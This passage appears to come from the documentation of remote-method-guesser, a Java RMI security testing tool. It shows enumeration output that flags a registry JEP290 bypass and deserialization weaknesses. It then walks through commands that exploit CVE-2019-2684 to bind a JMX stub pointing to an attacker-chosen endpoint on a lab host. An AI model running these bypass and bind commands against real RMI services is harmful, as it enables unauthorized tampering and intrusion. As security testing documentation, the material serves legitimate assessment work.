 ```console
[+] RMI DGC enumeration:
[+] 
[+] 	- Security Manager rejected access to the class loader.
[+] 	  --> The DGC uses most likely a separate security policy.
[+] 	  Configuration Status: Current Default
[+] 
[+] RMI server JEP290 enumeration:
[+] 
[+] 	- DGC rejected deserialization of java.util.HashMap (JEP290 is installed).
[+] 	  Vulnerability Status: Non Vulnerable
[+] 
[+] RMI registry JEP290 bypass enmeration:
[+] 
[+] 	- Caught IllegalArgumentException after sending An Trinh gadget.
[+] 	  Vulnerability Status: Vulnerable
[+] 
[+] RMI ActivationSystem enumeration:
[+] 
[+] 	- Caught IllegalArgumentException during activate call (activator is present).
[+] 	  --> Deserialization allowed	 - Vulnerability Status: Vulnerable
[+] 	  --> Client codebase enabled	 - Configuration Status: Non Default
```


#### Bind Operations

By using the ``bind``, ``rebind`` or ``unbind`` action, it is possible to modify the available *bound names* within the *RMI registry*.
This is especially useful for verifying ``CVE-2019-2684``, which bypasses the localhost restrictions and enables remote users to perform
bind operations. Whereas the ``unbind`` action only requires the *bound name* that should be removed, the ``bind`` and ``rebind`` operations
also require a *RemoteObject* that should be bound. *remote-method-guesser* always uses ``javax.management.remote.rmi.RMIServerImpl_Stub``
for this purpose, which is the *RemoteObject* used by *jmx*. You need also to specify the address of the corresponding *TCP endpoint*
(address where clients should connect to, when they attempt to use your bound object).

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010
[+] RMI registry bound names:
[+] 
[+] 	- plain-server2
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 	- plain-server
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 	- legacy-service
[+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[...]

[qtc@kali ~]$ rmg 172.17.0.2 9010 bind 172.17.0.1:4444 --bound-name jmxrmi --localhost-bypass
[+] Binding name jmxrmi to javax.management.remote.rmi.RMIServerImpl_Stub
[+] 
[+] 	Encountered no Exception during bind call.
[+] 	Bind operation was probably successful.

[qtc@kali ~]$ rmg 172.17.0.2 9010
[+] RMI registry bound names:
[+] 
[+] 	- jmxrmi
[+] 		--> javax.management.remote.rmi.RMIServerImpl_Stub (known class)
[+] 	- plain-server2
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 	- plain-server
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
```